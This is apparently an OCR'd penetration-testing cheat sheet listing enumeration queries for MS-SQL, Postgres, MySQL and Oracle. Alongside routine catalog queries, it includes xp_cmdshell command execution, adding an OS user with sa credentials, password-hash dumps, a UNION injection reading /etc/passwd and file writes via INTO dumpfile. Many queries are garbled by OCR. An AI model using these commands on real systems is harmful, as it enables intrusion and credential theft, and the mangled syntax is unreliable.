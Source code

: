 # Databases

Ms-sql

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>Command</b>
      </th>
      <th style="text-align:left"><b>Description</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">SELECT @@version</td>
      <td style="text-align:left">DB version</td>
    </tr>
    <tr>
      <td style="text-align:left">EXEC xp_msver</td>
      <td style="text-align:left">Detailed version info</td>
    </tr>
    <tr>
      <td style="text-align:left">EXEC master..xp_cmdshell &apos;net user&apos;</td>
      <td style="text-align:left">Run OS command</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT HOST_ NAME()</td>
      <td style="text-align:left">Hostname &amp; IP</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT DB_ NAME()</td>
      <td style="text-align:left">Current DB</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name FROM master..sysdatabases;</td>
      <td style="text-align:left">List DBs</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT user name()</td>
      <td style="text-align:left">Current user</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name FROM master .. sjslogins</td>
      <td style="text-align:left">List users</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>SELECT name FROM master..sysobjects WHERE</p>
        <p>xtype= &apos;U&apos;;</p>
      </td>
      <td style="text-align:left">List tables</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p></p>
        <p>SELECT name FROM syscolumns WHERE id=(SELECT</p>
        <p>id FR0M sysobjects WHERE name- &apos;mjtable&apos; ) ;</p>
      </td>
      <td style="text-align:left">List columns</td>
    </tr>
  </tbody>
</table>### System table containing info on all tables

```text
SELECT TOP 1 TABLE_NAME FROM INFORMATION SCHEMA.TABLES
```

### List all tables/columns

```text
SELECT name FROM Syscolumns WHERE id
(SELECT id FROM Sysobjects WHERE
name= 'mytable')
```

### Password hashes \(2005\)

```text
SELECT name, password hash FROM master.sys.sgl_logins
```

## Postgres

| **Command** | **Description** |
| :--- | :--- |
| SELECT version\(\); | DB version |
| SELECT inet server\_addr\(\) | Hostname & IP |
| SELECT current database\(\); | Current DB |
| SELECT datname FROM pg database; | List DBs |
| SELECT user; | Current user |
| SELECT username FROM pg\_user; | List users |
| SELECT username,passwd FROM pg shadow | List password hashes |

### List columns

```text
SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A,
pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND
(A.attrelid=C.oid) AND (A.atttjpid=T.oid) AND (A.attnum 0) AND (NOT
A.attisdropped) AND (N.nspname ILIKE 'public')
```

### List tables

```text
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN
pg catalog.pg namespace n ON n.oid = c.relnamespace WHERE c.relkind IN
( 'r',") AND n.nspname NOT IN ( 'pg catalog', 'pg toast') AND
pg_catalog.pg_table_is_visible(c.oid)
```

## Mysql

| **Command** | **Description** |
| :--- | :--- |
| SELECT @@version; | DB version |
| SELECT @@hostname; | Hostname & IP |
| SELECT database\(\); | Current DB |
| SELECT distinct \(db\) FROM mjsql.db; | List DBs |
| SELECT user\(\); | Current user |
| SELECT user FROM mysql.user; | List users |
| SELECT host,user,password FROM mJsql.user; | List password hashes |

### List all tables & columns

```text
SELECT table schema, table name, column_ name FR0M
information scherna.columns WHERE
table schema != 'mysql' AND table schema != 'information schema'
```

### Execute os command through mysql

```text
osql -S ip , port -U sa -P pwd -Q "exec xp cmdshell `net user /add user
passr`"
```

### Read world-readable files

```text
UNION ALL SELECT LOAD FILE( '/etc/passwd');
```

### Write to file system

```text
SELECT * FROM mytable INTO dumpfile '/tmp/ somefile';
```

## Oracle 

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>Command</b>
      </th>
      <th style="text-align:left"><b>Description</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">SELECT * FROM v$version;</td>
      <td style="text-align:left">DB version</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT version FROM v$instance;</td>
      <td style="text-align:left">DB version</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT instance name FROM v$instance;</td>
      <td style="text-align:left">Current DB</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name FROM v$database;</td>
      <td style="text-align:left">Current DB</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT DISTINCT owner FROM all_tables;</td>
      <td style="text-align:left">List DBs</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT user FROM dual;</td>
      <td style="text-align:left">Current user</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>SELECT username FROM all_users ORDER BY</p>
        <p>username;</p>
      </td>
      <td style="text-align:left">List users</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT column name FROM all_tab_columns;</td>
      <td style="text-align:left">List columns</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT table name FROM all_tables;</td>
      <td style="text-align:left">List tables</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name, password, astatus FROM sys.user$;</td>
      <td style="text-align:left">List password hashes</td>
    </tr>
  </tbody>
</table>### List DBAs

```text
SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = 'YES';
```

